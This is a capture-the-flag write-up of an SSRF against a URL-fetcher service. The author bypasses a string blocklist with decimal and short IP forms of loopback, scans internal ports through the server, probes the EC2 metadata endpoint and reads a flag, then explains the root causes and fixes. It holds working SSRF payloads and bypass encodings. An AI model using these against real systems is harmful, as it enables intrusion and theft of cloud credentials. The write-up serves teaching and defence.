

# ORBIT DISPATCH, SSRF Past a Blocklist to an Internal Service, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | ORBIT DISPATCH ("Signal desk", a URL fetcher) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8080 (EC2) |
| **IP:Port** | `54.72.82.22:8080` |
| **Flag format** | `safctf{...}` |
| **Date** | 2026-10-03 |
| **Outcome** | The "fetch a URL" tool blocks `127.0.0.1`/`localhost` as strings. I passed `127.0.0.1` as its **decimal integer** `2130706433`, scanned loopback ports through the server, found an internal service on `:9000`, and read `/flag`. |
| **Honesty note** | Part of the second-wave sweep. I'm keeping the AWS-metadata detour in because it's the thing that proved the SSRF was real before I found the actual target. |

---

## 1. The Short Version

ORBIT DISPATCH has a "Signal desk" with a **URL to fetch** box. That's a server-side fetcher: *I* give a URL, the *server* requests it and shows me the response. That is the textbook setup for **SSRF (Server-Side Request Forgery)**, I can aim the server at things *I* can't reach directly, like its own loopback interface.

The tool POSTs JSON to `/api/fetch`:

```bash
curl -s -X POST http://54.72.82.22:8080/api/fetch \
  -H 'Content-Type: application/json' --data '{"url":"http://127.0.0.1/"}'
# {"error":"url blocked by policy"}
```

So there's a filter. But it only blocks the *strings* `127.0.0.1` and `localhost`. `127.0.0.1` has many other spellings. The integer form slipped straight through:

```bash
# 2130706433 == 0x7F000001 == 127.0.0.1
curl -s -X POST .../api/fetch --data '{"url":"http://2130706433:9000/flag"}'
```

Scanning loopback that way found an internal HTTP service on port **9000** with a `/flag` route:

```
safctf{9f3a458f3a26e6372b5b5467e3e51edf}
```

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{9f3a458f3a26e6372b5b5467e3e51edf}` | SSRF `http://2130706433:9000/flag` (loopback via decimal IP) |

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Server fetches an attacker-controlled URL | **SSRF** (CWE-918) | `POST /api/fetch` | High |
| 2 | Loopback defended by a **string** blocklist, not by resolving the address | Incomplete/again-defeatable denylist (CWE-184) | fetch policy | High |
| 3 | Internal-only service exposes `/flag` with no auth, trusting network position | Reliance on network perimeter | loopback `:9000` |, |

---

## 3. Recon

The page JS showed the sink: `fetch("/api/fetch", { method: POST, body: {url} })`. GET on `/api/fetch` → `405 Method Not Allowed`, so it's POST-only, JSON body.

I mapped the policy by throwing spellings of loopback at it:

```bash
f(){ curl -s -X POST http://54.72.82.22:8080/api/fetch \
       -H 'Content-Type: application/json' --data "{\"url\":\"$1\"}"; }

f http://127.0.0.1/        # {"error":"url blocked by policy"}
f http://localhost/        # {"error":"url blocked by policy"}
f http://127.1/            # fetch error: ... host='127.1' ... refused   ← PASSED policy
f http://2130706433/       # fetch error: ... host='2130706433' ... refused ← PASSED policy
f file:///etc/passwd       # No connection adapters for 'file://'         (scheme not supported)
f http://169.254.169.254/latest/meta-data/   # 200! real EC2 metadata
```

Two findings here:

1. The blocklist is **literal-string** only. Anything that isn't the exact text `127.0.0.1`/`localhost` sails past the policy and the server actually tries to connect (I can tell because the error changes from *"blocked by policy"* to a real *connection refused / host lookup*).
2. **AWS metadata (`169.254.169.254`) was reachable**, the server returned the live IMDS index. That confirmed SSRF beyond doubt. But `user-data` was 404 and the flag wasn't in metadata, so IMDS was a detour, not the destination.

---

## 4. The Exploit

Since `2130706433` (decimal `127.0.0.1`) passes the filter *and* the server connects, I used the fetcher as a **loopback port scanner**, then as a loopback HTTP client:

```bash
f(){ curl -s -X POST http://54.72.82.22:8080/api/fetch \
       -H 'Content-Type: application/json' --data "{\"url\":\"$1\"}"; }

for port in 8080 80 5000 8000 8888 9000 3000; do
  for path in "" flag admin internal secret; do
    echo "$port/$path => $(f "http://2130706433:$port/$path" | head -c 70)"
  done
done | grep -v 'Max retries\|blocked\|refused'
# ...
# 8000/ => {"headers":...}        (the app's own front-end)
# 9000/flag => {"headers":...}    (a BaseHTTP/0.6 Python service — different server!)
```

Port **9000** answered with a different server banner (`BaseHTTP/0.6 Python/3.11.16`) and a `/flag` route. Reading it:

```bash
f "http://2130706433:9000/flag"
# {"decrypted":..., "preview":"safctf{9f3a458f3a26e6372b5b5467e3e51edf}", "status_code":200}
```

> The root `:9000/` returned *"Not found"* and `:9000/admin` was generic, only `/flag` mattered. The service exists **solely** to be reached from loopback, which is exactly why it has no auth: it trusts that "only the server can talk to me." SSRF breaks that assumption.

---

## 5. Why It Worked & How I'd Fix It

- **Root cause #1, the fetcher itself.** Letting a server fetch a user-supplied URL is inherently dangerous; it lends the attacker the server's network position (loopback, link-local metadata, internal VPC hosts).
- **Root cause #2, the wrong control.** The defender blocked two *strings*. Loopback has endless representations: `127.0.0.1`, `127.1`, `2130706433`, `0x7f000001`, `0177.0.0.1`, `[::1]`, `127.0.0.1.nip.io`, a redirect that lands on it, DNS that resolves to it. A string match can't cover them.

How I'd fix it:

1. **Resolve, then validate the resolved IP**, not the text. Reject if the resolved address is in loopback/private/link-local ranges (`127.0.0.0/8`, `10/8`, `172.16/12`, `192.168/16`, `169.254/16`, `::1`, `fc00::/7`).
2. **Pin the connection to the validated IP** to kill DNS-rebinding / TOCTOU (resolve once, connect to that exact IP, disable following redirects or re-validate each hop).
3. **Allowlist** schemes (`http`/`https` only, no `file`, `gopher`, `dict`) and, ideally, destination hosts.
4. **Block IMDS at the platform**: require IMDSv2 (token-bound) and/or a hop-limit of 1, or deny `169.254.169.254` egress from the app entirely.
5. **Don't rely on network position for authz**, the `:9000/flag` service should still require a credential.

---

## 6. Timeline

- Found the `/api/fetch` sink → `127.0.0.1` blocked by policy.
- Tried spellings → `127.1`, `2130706433` pass the filter and actually connect; `169.254.169.254` returns live EC2 metadata (SSRF confirmed).
- Metadata was a dead-end (user-data 404) → pivoted to scanning loopback ports via decimal IP.
- Found internal `:9000` (BaseHTTP) → `GET /flag` → flag.

---

## 7. References

- PortSwigger, **Server-side request forgery (SSRF)**
- CWE-918 (SSRF), CWE-184 (Incomplete Blacklist)
- AWS, **IMDSv2** and instance metadata hardening
- Payloads All The Things, **SSRF** (IP representation bypasses)

**Lesson I'm keeping:** a blocklist that matches *text* can't defend an *address*. `127.0.0.1` and `2130706433` are the same machine; only one of them was on the list.
